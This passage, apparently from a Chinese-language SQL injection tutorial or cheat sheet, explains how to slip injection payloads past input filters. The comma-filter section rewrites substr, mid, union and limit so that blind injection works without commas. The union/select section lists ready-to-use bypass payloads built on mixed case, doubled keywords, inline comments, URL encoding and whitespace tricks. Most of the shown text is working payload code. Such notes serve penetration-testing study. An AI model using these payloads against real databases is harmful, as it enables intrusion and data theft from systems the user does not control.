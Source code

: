 

### 6.4 逗号过滤

在使用盲注的时候，需要使用到substr(),mid(),limit。这些子句方法都需要使用到逗号。对于substr()和mid()这两个方法可以使用from to的方式来解决：

```sql
select substr(database() from 1 for 1);
select mid(database() from 1 for 1);
```

使用join：

```sql
union select 1,2     #等价于
union select * from (select 1)a join (select 2)b
```

使用like：

```sql
select ascii(mid(user(),1,1))=80   #等价于
select user() like 'r%'
```

对于limit可以使用offset来绕过：

```sql
select * from news limit 0,1

select * from news limit 1 offset 0
```



### 6.5 union和select过滤

**基本绕过思路**

- 尝试大小写绕过
- 尝试复写单词绕过

```sql
uNIoN sel<>ect # 程序过滤<>为空 脚本处理
uNi//on sele//ct # 程序过滤//为空
uNIoN /!%53eLEct/ # url 编码与内联注释
uNIoN se%0blect # 使用空格绕过
uNIoN sele%ct # 使用百分号绕过
uNIoN %53eLEct # 编码绕过
uNIoN sELecT 1,2 #大小写绕过
uNIoN all select 1,2 # ALL绕过
uNIoN DISTINCT select 1,2 # 去重复DISTINCT 绕过
null+UNION+SELECT+1,2 # 加号代替空格绕过
/!union//!select/1,2 # 内联注释绕过
/!50000union//!50000select/1,2 # 内联注释绕过
uNIoN//select/**/1,2 # 注释代替空格绕过
```



